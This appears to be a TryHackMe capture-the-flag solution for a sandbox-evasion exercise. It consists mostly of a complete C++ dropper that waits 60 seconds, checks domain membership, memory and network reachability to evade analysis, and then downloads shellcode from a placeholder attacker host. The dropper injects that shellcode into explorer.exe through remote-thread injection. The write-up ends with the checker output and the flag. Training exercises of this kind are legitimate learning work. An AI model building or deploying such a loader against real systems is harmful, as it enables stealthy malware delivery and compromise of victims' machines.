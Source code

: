 # The Great Escape

Create your own Sandbox Evasion executable. In order to escape the Sandbox, you must implement the following techniques:

* Check and see if the device is joined to an Active Directory Domain
* Check if the system memory is greater than 1GB of RAM
* Implement an outbound HTTP request to 10.10.10.10
* Implement a 60-second sleep timer before your payload is retrieved from your web server

If your dropper meets these requirements specified above, the flag will be printed out to you.

_The Sandbox Evasion Techniques can fail. The program analyses the binary to see if the checks are implemented. The outbound device may not have internet access - as long as the checks are implemented, the sandbox check should succeed._

* If you have done it right, the "Sleep Check" will take approximately one minute to reveal the flag.
* If your DNS check has `if(dcNewName.find("\\"))` instead of `if(dcNewName.find("\\\\"))` then you may have 
difficulties with the sleep check.

## Code

To use this code in the THM context for your machines, change the placeholder values `explorer.exe-pid` and `ATTACK_IP`.

```text
#include <iostream>
#include <Windows.h>
#include <tlhelp32.h>
#include <locale>
#include <string>
#include <urlmon.h>
#include <cstdio>
#pragma comment(lib, "urlmon.lib")
#include <lm.h>

#pragma comment(lib, "netapi32.lib")

using namespace std;


BOOL isDomainController() {
    LPCWSTR dcName;
    string dcNameComp;
    NetGetDCName(NULL, NULL, (LPBYTE*)&dcName);
    wstring ws(dcName);
    string dcNewName(ws.begin(), ws.end());
    cout << dcNewName;
    if(dcNewName.find("\\\\")) {
        return FALSE;
    }
    else {
        return TRUE;
    }
}


BOOL checkIP()
{
    const char* websiteURL = "https://10.10.10.10";
    IStream* stream;
    string s;
    char buff[35];
    unsigned long bytesRead;
    URLOpenBlockingStreamA(0, websiteURL, &stream, 0, 0);
    while (true) {
        stream->Read(buff, 35, &bytesRead);
        if (0U == bytesRead) {
            break;
        }
        s.append(buff, bytesRead);
    }
    if (s == "VICTIM_IP") {
        return TRUE;
    }
    else {
        return FALSE;
    }
}


BOOL memoryCheck() {
    MEMORYSTATUSEX statex;
    statex.dwLength = sizeof(statex);
    GlobalMemoryStatusEx(&statex);
    if (statex.ullTotalPhys / 1024 / 1024 / 1024 >= 1.00) {
        return TRUE;
    }
    else {
        return FALSE;
    }
}


int downloadAndExecute()
{
    HANDLE hProcess;
//Update the dwSize variable with your shellcode size. This should be approximately 510 bytes
    SIZE_T dwSize = 510;
    DWORD flAllocationType = MEM_COMMIT | MEM_RESERVE;
    DWORD flProtect = PAGE_EXECUTE_READWRITE;
    LPVOID memAddr;
    SIZE_T bytesOut;
//Update the OpenProcess Windows API with your Explorer.exe Process ID. This can be found in Task Manager
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, explorer.exe-pid);
//Update the c2URL with your IP Address and the specific URI where your raw shellcode is stored.
    const char* c2URL = "http://ATTACK_IP:8080/index.raw";
    IStream* stream;
//Update the buff[] variable to include your shellcode size
    char buff[510];
    unsigned long bytesRead;
    string s;
    URLOpenBlockingStreamA(0, c2URL, &stream, 0, 0);
    while (true) {
//Update the Read file descriptor to include your shellcode size
        stream->Read(buff, 510, &bytesRead);
        if (0U == bytesRead) {
            break;
        }
        s.append(buff, bytesRead);
    }
    memAddr = VirtualAllocEx(hProcess, NULL, dwSize, flAllocationType, flProtect);

    WriteProcessMemory(hProcess, memAddr, buff, dwSize, &bytesOut);

    CreateRemoteThread(hProcess, NULL, dwSize, (LPTHREAD_START_ROUTINE)memAddr, 0, 0, 0);
    stream->Release();
    return 0;
}


int main() {
        Sleep(60000);
        if (isDomainController() == TRUE) {
                 if (memoryCheck() == TRUE) {
                          if (checkIP() == TRUE) {
        downloadAndExecute();
                          }
                 }
    }
    return 0;
}
```

Check:

```text
C:\Users\Administrator\Desktop\Materials\> .\SandboxChecker.exe C:\Users\TryHackMe\Materials\SandboxEvasion.exe
[+] Memory Check found!
[+] Network Check found!
[+] GeoFilter Check found!
[+] Sleep Check found!
Congratulations! Here is your flag: THM{6c1f95ec}
```